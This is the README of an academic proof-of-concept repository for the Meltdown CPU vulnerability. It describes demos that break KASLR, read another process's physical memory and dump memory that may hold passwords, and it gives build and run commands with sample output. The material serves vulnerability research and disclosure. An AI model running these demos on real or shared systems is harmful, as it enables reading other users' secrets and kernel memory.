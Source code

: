 # Meltdown Proof-of-Concept

This repository contains several applications, demonstrating the [Meltdown bug](https://meltdown.help). For technical information about the bug, refer to the paper: 

* [Meltdown](https://meltdown.help/meltdown.pdf) by Lipp, Schwarz, Gruss, Prescher, Haas, Mangard, Kocher, Genkin, Yarom, and Hamburg

The applications in this repository are built with [libkdump](https://github.com/IAIK/Meltdown/tree/master/libkdump), a library we developed for the paper. This library simplifies exploitation of the bug by automatically adapting to certain properties of the environment. 

## Videos

This repository contains two videos demonstrating Meltdown

 * The [first video (spy)](https://github.com/IAIK/Meltdown/tree/master/videos/spy.mp4) shows how Meltdown can be used to spy in realtime on a password input. 
 * The [second video (memdump)](https://github.com/IAIK/Meltdown/tree/master/videos/memdump.mp4) shows how Meltdown leaks physical memory content. 
 

## Demos

This repository contains five demos to demonstrate different use cases. All demos are tested on Ubuntu 16.04 with an Intel Core i7-6700K, but they should work on any Linux system with any modern Intel CPU since 2010. 

For best results, we recommend a fast CPU that supports Intel TSX (e.g. any Intel Core i7-5xxx, i7-6xxx, or i7-7xxx). 
Furthermore, every demo should be pinned to one CPU core, e.g. with taskset.

### Demo #1: A first test (`test`)

This is the most basic demo. It uses Meltdown to read accessible addresses from the own address space, not breaking any isolation mechanisms. 

If this demo does not work for you, the remaining demos won't most likely not work either. The reasons are manifold, e.g., the CPU could be too slow, not support out-of-order execution, the high-resolution timer is not precicse enough (especially in VMs), the operating system does not support custom signal handlers, etc.

#### Build and Run

```bash
make
taskset 0x1 ./test
```

If you see an output similar to this
```
Expect: Welcome to the wonderful world of microarchitectural attacks
   Got: Welcome to the wonderful world of microarchitectural attacks
```
then the basic demo works.


### Demo #2: Breaking KASLR (`kaslr`)

Starting with Linux kernel 4.12, KASLR (Kernel Address Space Layout Randomizaton) is active by default.  This means, that the location of the kernel (and also the direct phyiscal map which maps the entire physical memory) changes with each reboot. 

This demo uses Meltdown to leak the (secret) randomization of the direct physical map. This demo requires root privileges to speed up the process. The paper describes a variant which does not require root privileges. 

#### Build and Run

```bash
make
sudo taskset 0x1 ./kaslr
```

After a few seconds, you should see something similar to this
```
[+] Direct physical map offset: 0xffff880000000000
```

### Demo #3: Reliability test (`reliability`)

This demo tests how reliable physical memory can be read. For this demo, you either need the direct physical map offset (e.g. from demo #2) or you have to disable KASLR by specifying `nokaslr` in your kernel command line. 

#### Build and Run

Build and start `reliability`. If you do not have KASLR disabled, the first parameter is the offset of the direct physical map. Otherwise, the program does not require a parameter. 
```bash
make
sudo taskset 0x1 ./reliability
```

After a few seconds, you should get an output similar to this:
```
[-] Success rate: 99.93% (read 1354 values)
```

### Demo #4: Read physical memory (`physical_reader`)

This demo reads memory from a different process by directly reading physical memory. For this demo, you either need the direct physical map offset (e.g. from demo #2) or you have to disable KASLR by specifying `nokaslr` in your kernel command line. 

In principal, this program can read arbitrary physical addresses. However, as the physical memory contains a lot of non-human-readable data, we provide a test tool (`secret`), which puts a human-readable string into memory and directly provides the physical address of this string. 

#### Build and Run

For the demo, first run `secret` (as root) to get the physical address of a human-readable string:
```bash
make
sudo ./secret
```

It should output something like this:
```
[+] Secret: If you can read this, this is really bad
[+] Physical address of secret: 0x390fff400
[+] Exit with Ctrl+C if you are done reading the secret
```

Let the `secret` program running, and start `physical_reader`. The first parameter is the phyiscal address printed by `secret`. If you do not have KASLR disabled,  the second parameter is the offset of the direct physical map.
```bash
taskset 0x1 ./physical_reader 0x390fff400
```

After a few seconds, you should get an output similar to this:
```
[+] Physical address       : 0x390fff400
[+] Physical offset        : 0xffff880000000000
[+] Reading virtual address: 0xffff880390fff400

If you can read this, this is really bad
```


### Demo #5: Dump the memory (`memdump`)

This demo dumps the content of the memory. As demo #3 and #4, it uses the direct physical map, to dump the contents of the physical memory in a hexdump-like format. 

Again, as the physical memory contains a lot of non-human-readable content, we provide a test tool to fill large amounts of the physical memory with human-readable strings. 

#### Build and Run

For the demo, first run `memory_filler` to fill the memory with human-readable strings. The first argument is the amount of memory (in gigabytes) to fill. 
```bash
make
./memory_filler 9
```

Then, run the `memdump` tool to dump memory contents. If you executed `memory_filler` before, you should see some string fragments. 
If you have Firefox or Chrome with multiple tabs running, you might also see parts of the websites which are open or were recently closed. 

The first parameter is the phyiscal address at which the dump should begin (leave empty to start at the first gigabyte). If you do not have KASLR disabled,  the second parameter is the offset of the direct physical map.

```bash
taskset 0x1 ./memdump 0x240000000  # start at 9 GB
```

You should get a hexdump of parts of the memory (potentially even containing secrets such as passwords, see example in the paper), e.g.:

```
 240001c9f: | 00 6d 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | .m.............. |
 24000262f: | 00 7d 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | .}.............. |
 24000271f: | 00 00 00 00 00 00 00 00 00 00 00 00 65 6e 20 75 | ............en u |
 24000272f: | 73 65 72 20 73 70 61 63 65 20 61 6e 64 20 6b 65 | ser space and ke |
 24000273f: | 72 6e 65 6c 57 65 6c 63 6f 6d 65 20 74 6f 20 74 | rnelWelcome to t |
 24000298f: | 00 61 72 79 20 62 65 74 77 65 65 6e 20 75 73 65 | .ary between use |
 24000299f: | 72 20 73 70 61 63 65 20 61 6e 64 20 6b 65 72 6e | r space and kern |
 2400029af: | 65 6c 42 75 72 6e 20 61 66 74 65 72 20 72 65 61 | elBurn after rea |
 2400029bf: | 64 69 6e 67 20 74 68 69 73 20 73 74 72 69 6e 67 | ding this string |
 240002dcf: | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c8 | ................ |
 2400038af: | 6a 75 73 74 20 73 70 69 65 64 20 6f 6e 20 61 00 | just spied on a. |
 240003c8f: | 00 00 1e 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ |
 24000412f: | 00 00 00 00 00 00 00 00 00 00 00 00 65 74 73 2e | ............ets. |
 24000413f: | 2e 2e 57 65 6c 63 6f 6d 65 20 74 6f 20 74 68 65 | ..Welcome to the |
 2400042ff: | 00 00 00 00 00 00 00 00 00 6e 67 72 61 74 75 6c | .........ngratul |
 24000430f: | 61 74 69 6f 6e 73 2c 20 79 6f 75 20 6a 75 73 74 | ations, you just |
 24000431f: | 20 73 70 69 65 64 20 6f 6e 20 61 6e 20 61 70 70 |  spied on an app |
```


## Warnings
**Warning #1**: We are providing this code as-is. You are responsible for protecting yourself, your property and data, and others from any risks caused by this code. This code may cause unexpected and undesirable behavior to occur on your machine. This code may not detect the vulnerability on your machine.

**Warning #2**: If you find that a computer is susceptible to the Meltdown bug, you may want to avoid using it as a multi-user system. Meltdown breaches the CPU's memory protection. On a machine that is susceptible to the Meltdown bug, one process can read all pages used by other processes or by the kernel.

**Warning #3**: This code is only for testing purposes. Do not run it on any productive systems. Do not run it on any system that might be used by another person or entity.
